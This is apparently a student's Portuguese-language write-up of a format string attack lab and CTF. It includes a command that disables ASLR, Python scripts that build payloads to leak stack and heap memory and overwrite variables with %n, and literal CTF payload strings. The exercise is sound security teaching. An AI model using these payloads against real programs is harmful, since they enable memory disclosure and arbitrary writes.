





## Task: Format String Attack Lab

## Setup 

* Inativar a randomização de endereços usando o código
````sh
sudo sysctl -w kernel.randomize_va_space=0
````

* Adicionar as flags **-static** e **-z exestack**

## Task 1 : Crashing the Program

Ao inserir vários "%s", o printf imprime o conteúdo dos endereços de memória na stack. 
Com o número significativo de "%s" pode tentar imprimir o contéudo de memória não existente , *"crashando"* assim o programa.

## Task 2 : Printing Out the Server Program’s Memory

### Task 2.A : Stack Data

Depois de iterativamente testarmos diferentes quantidades de **%x**, chegámos a conclusão com 12 **%x** conseguimos que o programa mostrasse o endereço do buffer de input. Sendo assim, para saber o conteúdo do 12° endereço basta usar o "%s".

````py 
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x|"*11 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

````



### Task 2.B : HeapData

Realizámos o mesmo método da task anterior e concluímos que eram necessários 64 **%x**. 
Além disso, alterámos o valor do *number* para o valor apresentado no terminal em *"The secret message’s address:  0x080b4008"*.

````py 
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%x|"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

````



## Task 3 : Modifying the Server Program’s Memory

### Task 3.A : Change the value to a different value

Alterámos o valor do *number* para o valor apresentado no terminal em *"The target variable’s address: 0x080e5068"*. Assim, usando **%n** é nos possível alterar o conteúdo de memória no endereço especificado. A maneira como funciona é da seguinte forma:

* Conta o número de bytes utilizados na string até ser chamado .
* Coloca esse valor no endereço de memória especificado com **%(número de ocorrência)$n**.

````py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
````



O valor no endereço da target é 8, pois antes de chamarmos a %n tinhamos 8 bytes na forma do endereço da target e o valor "abcd".

### Task 3.B : Change the value to 0x5000

Recorremos à ajuda do %x conseguimos incluir na string formada pelo printf um número de espaços em branco. Com isso, conseguimos determinar o valor de **0x5000** em decimal (20480) e apenas temos de reduzir a esse valor os 8 bytes que já tínhamos. Assegurando-nos assim que o valor escrito na memória é **0x5000**.

````py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%20472x" + "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
````


## CTF - Format Strings.

### Desafio 1:

Usando a string: "\x60\xc0\x04\x08|%s" é possivel acedermos ao endereço da variavel local flag que é 0x0804c060 atravès do gdb.
Ao introduzirmos o endereço em litle endian na string é possivel imprimir o seu conteúdo.

### Desafio 2:

Usando a string: "\x34\xc0\x04\x08%48875x%1$n" é possivel reescrever a variavel global 'key' para o valor hexadecimal 0xbeef. Atraves de %n é possivel reescrever o valor na memoria do endereço 0x0804c034 com o numero de bytes usados na tring até a sua chamada. Que neste caso será 4 bytes (enderço) + 48875 bytes em branco atraves %x que corresponde ao valor decimal de 0xbeef. 
